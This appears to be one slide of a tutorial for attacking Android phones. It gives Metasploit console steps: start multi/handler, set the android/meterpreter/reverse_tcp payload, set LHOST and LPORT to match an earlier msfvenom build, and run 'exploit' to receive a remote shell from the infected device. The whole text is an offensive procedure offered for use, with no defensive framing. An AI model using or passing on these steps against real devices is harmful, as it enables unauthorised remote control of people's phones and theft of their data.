

# STEP3:Exploit
Use Metasploit-framework to exploit.
Type “msfcosnole” in terminal

Type “use multi/handler”

Set payload which was set for before in “msfvenom”
Type “set payload android/meterpreter/reverse_tcp”

Set  LHOST(your local ip) which was set before in ”msfvenom”
Type set LHOST “your_local_ip”

Set LPORT which was set before in “msfvenom”
Type set LPORT “port_no”

Type “exploit”